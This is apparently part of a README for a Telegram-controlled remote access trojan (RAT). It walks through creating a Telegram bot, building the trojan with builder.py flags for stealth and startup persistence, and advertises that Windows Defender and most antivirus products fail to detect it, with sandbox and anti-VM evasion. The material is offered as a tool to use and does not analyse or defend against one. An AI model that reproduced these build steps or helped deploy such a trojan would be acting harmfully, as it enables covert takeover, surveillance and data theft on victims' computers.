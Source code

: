 
## ⚙️ **Configuration**

### **Setting Up Telegram Bot**

1. **Create Bot**:
   - Message [@BotFather](https://t.me/BotFather)
   - Send `/newbot`
   - Choose name and username
   - Save the bot token

2. **Get Your User ID**:
   - Message [@userinfobot](https://t.me/userinfobot)
   - Save your user ID number

3. **Configure RAT**:
   ```bash
   python builder.py --token "1234567890:ABCDEF..." --user-id 123456789
   ```

### **Advanced Configuration**

```bash
# Full stealth build with startup persistence
python builder.py \
  --token "YOUR_TOKEN" \
  --user-id YOUR_ID \
  --stealth \
  --startup \
  --no-deps

# Quick build without extra features
python builder.py \
  --token "YOUR_TOKEN" \
  --user-id YOUR_ID \
  --no-stealth \
  --no-startup
```

---

## 📊 **Detection Status**

### **Antivirus Bypass Results** *(As of 2025)*
- ✅ **Windows Defender** - ⭐ **UNDETECTED** ⭐
- ✅ **Most Commercial AVs** - Low detection rate
- ✅ **Behavioral Analysis** - Advanced evasion
- ✅ **Sandbox Detection** - Anti-VM techniques

> **Note**: Detection rates may vary based on AV updates. Always test in controlled environments.

---

